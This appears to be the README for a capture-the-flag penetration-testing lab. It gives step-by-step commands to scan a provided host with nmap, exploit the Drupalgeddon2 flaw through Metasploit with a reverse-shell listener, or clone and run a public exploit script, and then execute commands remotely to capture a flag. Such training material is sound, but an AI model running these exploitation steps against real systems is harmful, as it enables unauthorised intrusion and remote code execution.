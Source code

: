 Use nmap to scan for open ports of the provided host, identify applications running on each port, use Metaploit or a exploit script you find online to take advantage of the first vulnerability.

#### Getting setup
Here are instructions on how to get your pen-tester environment setup:

#### Instructions for Completing the Challenge
- Run nmap
- Run metasploit or a different exploit script to take advantage of a vulnerability in the first identified app
- Execute commands remotely
- Find the flag program in the current directory and use it to sign the challenge salt: `./flag <SALT>`

#### Nmap
Install nmap.

For Debian/Ubuntu:

`apt-get install nmap`
 
For RedHat/CentOS:

`rpm -vhU https://nmap.org/dist/nmap-7.80-1.x86_64.rpm`

Once nmap is installed you can scan the target host with `nmap <target_host> -Pn -p-`

Other useful parameters are listed below:

* `-p` {PORT_NUMBERS}: Scan ports of the target. It can be a single port number or
a range of ports.
* `-PS`, `-PA`, `-PU` {PORT_NUMBERS}: Replace it with the ports to scan. TCP SYN/ACK or 
UDP discovery.
* `-sV`: Determine service and version info.
* `-O`: Determine OS info. 
* `-A`: Determine service/version and OS info.
* `-script` {SCRIPT_NAME}: Start the scan with the given script.
* `--script` {SCRIPT_LIST}: Start the scan with the given scripts.

For a detailed list of all parameters availible please refer to the [Nmap Reference Guide](https://nmap.org/book/man.html).

#### Metasploit
If you have Docker installed you can simply run the metasploit container image. Here's how to do it:

Pull metasploit docker image from DockerHub

`docker pull metasploitframework/metasploit-framework`

Run metasploit container, forward port 4444 (needed for reverse shell), make sure those ports are open in security groups etc in your metasploit machine

`docker run -it -p 4444-4450:4444-4450 metasploitframework/metasploit-framework`

Search for the exploit you'd like to use based on nmap results, in this challenge look for Drupal exploits

`search drupal`

Select the Drupalgeddon2 exploit from the list

`use exploit/unix/webapp/drupal_drupalgeddon2`

Set the host and port for the attacker's and victim's machine

`set RHOSTS <host>`
`set RPORT <port>`
`set LHOST <remote IP of Metasploit machine>`
`set LPORT 4444`

Run the exploit!

`run`

This may fail in some cases, if it fails once reset the LHOST and run again

`set LHOST <remote IP of Metasploit machine>`
`run`

You should be able to get shell at this point and run commands in the container. Can you get the flag? Good luck!

If you want to learn more about Metasploit, please check out this free course from Offensive Security: [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)

#### Exploit Script

Before being ported to Metasploit for easy usage, exploits are usually released in the wild, in an ad-hoc way. Hackers can also take advantage of those to carry out their attacks. 

If the Metasploit option didn't work or you'd like to try another way of exploiting the same vulnerability, here it is:

In this scenario we are going to use the public exploit available here: https://github.com/dreadlocked/Drupalgeddon2

First, you need to clone the repository into your attacker's machine:

`git clone https://github.com/dreadlocked/Drupalgeddon2`

Go to the project folder and install the library dependencies:

`cd Drupalgeddon2`

`sudo gem install highline`

You should be able to excute the exploit like so:

`./drupalgeddon2.rb {VICTIM_IP_OR_URL:VICTIM_PORT}`


